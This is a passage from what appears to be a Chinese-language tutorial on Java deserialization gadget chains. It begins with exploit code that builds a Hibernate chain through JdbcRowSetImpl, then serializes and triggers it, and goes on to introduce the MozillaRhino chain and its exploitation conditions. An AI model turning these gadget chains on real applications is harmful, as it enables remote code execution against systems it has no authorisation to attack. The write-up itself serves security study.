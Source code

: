 ```java
        evil=new BasicPropertyAccessor().getGetter(JdbcRowSetImpl.class,"DatabaseMetaData");  //获取BasicGetter对象

        Object  getget =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.tuple.component.PojoComponentTuplizer"));
        SerializeUtil.setFieldValue(getget,"propertySpan",1);
        SerializeUtil.setFieldValue(getget,"getters",new Getter[]{(Getter) evil});

        Object GetPro =  SerializeUtil.createWithoutConstructor(Class.forName("org.hibernate.type.ComponentType"));
        SerializeUtil.setFieldValue(GetPro,"componentTuplizer",(ComponentTuplizer)getget);
        SerializeUtil.setFieldValue(GetPro,"propertySpan",1);

        TypedValue getHashCode =new TypedValue((Type) GetPro,null);  //通过反射赋值,以免在序列化的时候调用gadget
        HashMap map=new HashMap<>();
        map.put(getHashCode,"Yasax1");
        SerializeUtil.setFieldValue(getHashCode,"value",evilObj);


        SerializeUtil.writeObjectToFile(map,"h2");
        SerializeUtil.readFileObject("h2");
    }
}
```

# MozillaRhino

Rhino 是完全使用 Java 编写的 JavaScript 的开源实现，最初由 Mozilla 开发，后被集成至 JDK，此项目进一步扩展了 Java 的动态性，使 Java 可以调用 js 脚本，实现脚本语言与 Java 语言的数据交换。Rhino 的 ScriptEngine 经常被用来进行 JVM 沙箱逃逸。

Oracle JRE 6/7 捆绑了 Rhino 的旧分支（sun.org.mozilla.* 下的软件包），Oracle 使用 JRE7u13对 Rhino 核心类进行了一些强化，使其不再可序列化。这些更改是为了修复 James Forshaw 的沙箱逃逸 (CVE-2012-3213)，但是这些改变并没有被纳入 Mozilla 的 Rhino 中，因此，如果使用了与 Ubuntu 或 Debian 捆绑在一起的 OpenJdk，则可能依然存在此条利用链。

这条链子是通过invoke来触发恶意`TemplatesImpl#newTransformer`

## 利用条件

rhino-js > 1.6R6

## 前置知识

### NativeError

看下继承关系
